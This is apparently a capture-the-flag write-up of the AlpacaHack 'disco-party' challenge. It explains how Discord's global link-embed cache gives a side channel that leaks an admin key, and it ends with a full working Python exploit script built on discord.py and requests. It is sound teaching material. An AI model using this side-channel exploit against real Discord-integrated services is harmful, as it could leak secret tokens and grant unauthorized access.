






*[link to the challenge if you wanna give it a try](https://alpacahack.com/challenges/disco-party)*

After taking some time to do platform engineering work, I was scrolling on Twitter when I read [this](https://x.com/es3n1n/status/2056448315827319184) Twitter post
about "Common Mistakes While Running a CTF". Reading the comments, [keymoon](https://x.com/kymn_) had some GREAT
takes that got me thinking: "Wait a minute, I've seen this person before."


Today I decided to solve one of keymoon's challenges, which turned out just as great as his/her comments.

## Challenge description



The challenge starts as an invitation ticketing system. You write posts with inviting
content with the ability to report the post to an admin for visit.



The admin bot doesn't visit any link; rather, it is given a link to your post along
with a reason for the report.



---

The flag is injected into the index.html page when is_admin evaluates to True:

```py
@app.route("/post/<string(length=16):id>", methods=["GET"])
def get_post(id):
    """Read a ticket"""
    # Get ticket by ID
    content = get_redis_conn(DB_TICKET).get(id)
    if content is None:
        return flask.abort(404, "not found")

    # Check if admin
    content = json.loads(content)
    key = flask.request.args.get("key")
    is_admin = isinstance(key, str) and get_key(id) == key

    return flask.render_template(
        "index.html",
        **content,
        is_post=True,
        panel=f"""
<strong>Hello admin! Your flag is: {FLAG}</strong><br>
<form id="delete-form" method="post" action="/api/delete">
    <input name="id" type="hidden" value="{id}">
    <input name="key" type="hidden" value="{key}">
    <button id="modal-button-delete" type="button">Delete This Post</button>
</form>
""" if is_admin else "",
        url=flask.request.url,
        sitekey=RECAPTCHA_SITE_KEY
    )
```

is_admin evaluates to true if you supply a key query parameter equal to a hash
tied to your post id and a secret (unguessable) key:

```py
def get_key(id):
    assert isinstance(id, str)
    return b64digest(hashlib.sha256((APP_KEY + id).encode()).digest())[:10]
```

To solve the challenge, we have many options to try, but only one leads to the solution :)

## Issues and difficulties

Looking at the code above, it should be clear that the key can't be guessed; moreover,
a string type check is done, so no rich object tricks are possible.

Knowing that the post viewing mechanism is safe, I moved on to checking the reporting mechanism.

### Dev assumption (1): I'm always reporting to the correct BOT.

One thing I tried when solving the challenge was checking if the BOT token was
safely imported to the application. The bot did this to import the Discord bot token:

```py
#!/usr/bin/env python3
import discord
import redis

from secret import *

DB_BOT = 1

client = discord.Client()

@client.event
async def on_ready():
    pass # only for the sake of showing, this actually included code

client.run(DISCORD_SECRET)
```

"What if secret.py is malicious or the import mechanism can be tampered with?", I thought.
Turns out, those thoughts were futile as there is no file writing primitive, and even then,
I wasn't sure how to trigger another import.

> According to the Python docs: The import statement combines two operations; it searches for the named module, then it binds the results of that search to a name in the local scope.

### Dev assumption (2): Discord channel cannot be tampered with

The second dev assumption was: "sending a text to channel X from bot Y will send it to that channel instead of A USER CONTROLLED CHANNEL."

To verify this, I investigated the reporting mechanism. For the bot to send a report, the following happens first:

1. A <url> and a <reason> are taken from the user:

```py
@app.route("/api/report", methods=["POST"])
def api_report():
    """Reoprt an invitation ticket"""
    # Get parameters
    try:
        url = flask.request.form["url"]
        reason = flask.request.form["reason"]
        recaptcha_token = flask.request.form["g-recaptcha-response"]
    except Exception:
        return flask.abort(400, "Invalid request")
```

2. After parsing the URL and ensuring it passes a few checks (we can encounter them using dynamic testing),
we push the message to the Redis database:

```py
    key = get_key(args["id"])
    message = f"URL: {url}?key={key}\nReason: {reason}"

    try:
        get_redis_conn(DB_BOT).rpush(
            'report', message[:MESSAGE_LENGTH_LIMIT]
        )
    except Exception:
        return flask.jsonify({"result": "NG", "message": "Post failed"})

    return flask.jsonify({"result": "OK", "message": "Successfully reported"})
```

3. The bot infinitely polls the Redis DB, and once it finds an entry, sends it directly
to the correct location:

```py
@client.event
async def on_ready():
    print(f"We've logged in as {client.user}")
    channel = client.get_channel(LOGGING_CHANNEL_ID)
    if channel is None:
        print("Failed to get channel...")
        exit(1)

    c = redis.Redis(host='redis', port=6379, db=DB_BOT)
    while True:
        r = c.blpop('report', 1)
        if r is not None:
            key, value = r
            try:
                await channel.send(value.decode())
            except Exception as e:
                print(f"[ERROR] {e}")
```

Crucially, it uses `channel.send(...)` to send the message.



I thought we could send a command like `/send <user> <message>` instead of raw text,
but looking at the API reference above, this was a dead end too :(

## Solution

Now that we have checked the post viewing and reporting mechanisms and nothing appealed to us,
the challenge is most certainly related to how Discord handles messages.

When you first send a message containing a link inside a Discord channel, you get an [Embed](https://discordpy-reborn.readthedocs.io/en/latest/api.html#embed)
after Discord crawls your link, so that if you send the same message twice, you will
get an embed attribute on the [Message](https://discordpy-reborn.readthedocs.io/en/latest/api.html#discord.Message) object.



The question then becomes: "If the embed attribute exists when the message is the same, it means it's
cached; is the cache in this case global or local to one account?"

Well, it turns out it's global! (which makes sense). If two people link to the same
URL twice, it doesn't make sense to make Discord crawl both URLs to generate embeds from
them; one suffices. What's interesting to us is that we can use it as an oracle:

The bot visits `http://hostname:port/post/path?key=A` and loads an embed. If we send
a message with a different link, no embed attribute would exist, but if we visit the latter
URL again, the embed will exist. Effectively an oracle!

> An oracle is an expression that can be answered by Yes or No.

### Solve

We can get the flag in the following way:

1. First, we create a dummy post.
2. We report a URL with overflowing slashes `/` to hit the 2000 Discord text limit
at `?key=A`.
3. Using our own bot in our own server, we send a text with URL `?key=A`.
4. If the embed attribute exists, the character is added to the key and padding decreases by 1.

We repeat the process 10 times to exfiltrate the entire key and get the flag:

```py
#!/usr/bin/env python3

import requests
import discord
from discord.ext import tasks

LOGGING_CHANNEL_ID = *****
DISCORD_SECRET = *****

intents = discord.Intents.default()
client = discord.Client(intents=intents)

CHALLENGE_URL = 'http://localhost:8007'
key = ""
post_id = ''

@tasks.loop(seconds=10)
async def my_task():
    global post_id, key

    channel = client.get_channel(LOGGING_CHANNEL_ID)
    if channel is None:
        print("Failed to get channel...")
        exit(1)

    ngrok = 'http://<ngrok_host>:<ngrok_port>'
    slashes = '/' * (2000 - (len('URL: ') + len(f"{ngrok}/post/{post_id}") + len('?key=') + len(key) + 1))
    url = f"{ngrok}/{slashes}post/{post_id}"
    report = {
        "url": (None, url, None),
        "reason": (None,  "dummy", None),
        "g-recaptcha-response": (None, "", None)
    }
    requests.post(CHALLENGE_URL + "/api/report", files=report)

    # let's guess the character now :)
    keyspace = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_-'
    for k in keyspace:
        content = f"URL: {url}?key={key}{k}"
        try:
            msg = await channel.send(content)
            if msg.embeds:
                key += k
                print(f'[+] Found: {key}')
                break
        except Exception as e:
            print(f"[ERROR] {e}")

@client.event
async def on_ready():
    global post_id

    # populate a post
    payload = {
        "title": (None, "foo", None),
        "content": (None,  "bar", None)
    }
    resp = requests.post(CHALLENGE_URL + "/api/new", files=payload)
    post_id = resp.json()['action'].split('/')[-1]

    with open("post_id.txt", "w") as f:
        f.write(post_id)

    my_task.start() #let's see if this works


client.run(DISCORD_SECRET)
```

And the flag is ... Well, remote instance is down, but you can run the above script
to get the key :)



## Key takeaways

* **Platform Features as Side Channels:** Even when your application code is secure, the platforms it interacts with (like Discord) might have built-in behaviors that introduce vulnerabilities. Discord's global caching mechanism for link embeds is a prime example of a convenient feature turning into a powerful XS-Leak oracle.
* **Creative Constraint Bypassing:** Hitting Discord's 2000-character text limit by overflowing the URL with slashes (`/`) was a clever way to manipulate the exact string being cached and matched. It proves that character limits aren't just roadblocks; they can be used strategically to control the environment for brute-forcing.
* **Don't Get Stuck on Initial Assumptions:** Methodically verifying (and disproving) dev assumptions is a great approach. Ruling out malicious imports and direct channel tampering early on saved time and redirected focus to the actual vulnerable mechanism—how the platform handles message metadata.

## References

1. [discord.ext.tasks — discord.py documentation](https://discordpy.readthedocs.io/en/latest/ext/tasks/)
2. [Creating a Task - discord.py Masterclass](https://fallendeity.github.io/discord.py-masterclass/tasks/#creating-a-task)
3. [Python requests post multipart/form-data without filename in HTTP request](https://www.py4u.org/blog/python-requests-post-multipart-form-data-without-filename-in-http-request/)
4. [Clear the metatag/embed cache when someone posts a link](https://github.com/discord/discord-api-docs/issues/1663)
